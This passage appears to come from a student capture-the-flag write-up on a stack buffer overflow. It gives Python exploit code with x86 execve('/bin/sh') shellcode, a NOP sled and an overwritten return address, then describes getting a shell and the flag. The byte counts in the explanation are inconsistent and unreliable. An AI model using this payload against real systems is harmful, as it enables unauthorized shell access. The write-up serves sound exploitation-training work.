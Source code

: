 ```python
print("This is our address: " + temp)

address = bytearray.fromhex(temp)
address.reverse()

p.recvuntil(b":")
offset=108
shellcode= b"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\x31\xc0\xb0\x0b\xcd\x80"
final_input = shellcode + b'\x90' * (offset-len(shellcode)) + address
print(final_input)
p.sendline(final_input)
p.interactive()
```

* Firstly, we made a temporary variable to extract the ```buffer``` address. Then we to reverse it and enconding it again as byte array, as we did in the buffer overflow's labs.

* After that, we need to analyse the executable stack:

![](https://i.imgur.com/bDbtkjv.png)

* Our executable stack will be similar to this one. At first, we need to insert the shellcode. However, the ```buffer``` has 100B and sheellcode has only 19. So, we need to write several NOP addresses in order to reach the return address without executing other functions, to be more precise we need to insert 108 NOP's = 123-19 B and a NOP has 1 B length. When we reach the return address, we inserted the ```buffer``` address.

* When we tested it in the local mode, we opened a shell, which has meant that the exploit was successful:

![](https://i.imgur.com/Zs1n4f8.png)

* So, we turned off the local and we obatained the flag successfully, since we saw the "flag.txt" file:

![](https://i.imgur.com/Wy8ssDH.png)

